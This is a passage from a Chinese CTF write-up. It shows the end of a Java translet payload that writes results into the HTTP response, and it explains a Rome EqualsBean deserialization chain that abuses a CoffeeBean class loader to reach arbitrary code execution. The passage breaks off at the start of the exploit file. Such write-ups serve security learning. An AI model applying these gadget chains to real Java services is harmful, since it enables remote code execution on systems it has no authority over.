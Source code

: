 ```java
                            obj = cls.getDeclaredMethod("wrap", new Class[]{byte[].class}).invoke(cls, new Object[]{result});
                            resp.getClass().getMethod("doWrite", new Class[]{cls}).invoke(resp, new Object[]{obj});
                        }
                        flag = true;
                    }
                    if (flag) break;
                }
                if (flag)  break;
            }catch(Exception e){
                continue;
            }
        }
    }
    @Override
    public void transform(com.sun.org.apache.xalan.internal.xsltc.DOM document, com.sun.org.apache.xml.internal.serializer.SerializationHandler[] handlers) throws com.sun.org.apache.xalan.internal.xsltc.TransletException {

    }

    @Override
    public void transform(com.sun.org.apache.xalan.internal.xsltc.DOM document, com.sun.org.apache.xml.internal.dtm.DTMAxisIterator iterator, com.sun.org.apache.xml.internal.serializer.SerializationHandler handler) throws com.sun.org.apache.xalan.internal.xsltc.TransletException {

    }
}
```
将得到的exp进行urlencode，然后传入得到flag
![](https://img-blog.csdnimg.cn/499a214c90b9483983c815e67dcedd56.png)
参考：
[ctf中的java题目学习2](https://tttang.com/archive/1352)
[陇原战疫2021网络安全大赛 Web](https://blog.csdn.net/rfrder/article/details/121203831)

#### [长城杯2022]b4bycoffee
发现反序列化，并且存在rome1.7.0
![](https://img-blog.csdnimg.cn/20da2380cff14f288d41ab423f224b86.png)
但这个反序列化ban掉了rome链最常用的ToStringBean、ObjectBean、BadAttributeValueExpException，那怎么调用到tostring()呢?
![](https://img-blog.csdnimg.cn/dc18593bdb8949f280c92adeec9726fd.png)
rome链不是还存在一个EqualsBean吗，那么思路就很清晰了，但又过滤了TemplatesImpl，不能直接加载恶意类了

继续跟进发现存在CoffeeBean类，该类继承了ClassLoader，所以可以直接动态加载字节码，并且在`toString()`方法中，看到了`defineClass()`，之后try中又有个newInstance()，所以只要控制ClassByte的值，就可以任意代码执行

![](https://img-blog.csdnimg.cn/03aeda123d494525ad5e574ed945507b.png)
exp：
```java
import com.example.b4bycoffee.model.CoffeeBean;
import com.example.b4bycoffee.tools.AntObjectInputStream;
import com.rometools.rome.feed.impl.EqualsBean;

import java.io.ByteArrayInputStream;
import java.io.ByteArrayOutputStream;
import java.io.InputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Field;
import java.nio.file.Files;
import java.nio.file.Paths;
import java.util.Base64;
import java.util.HashMap;
```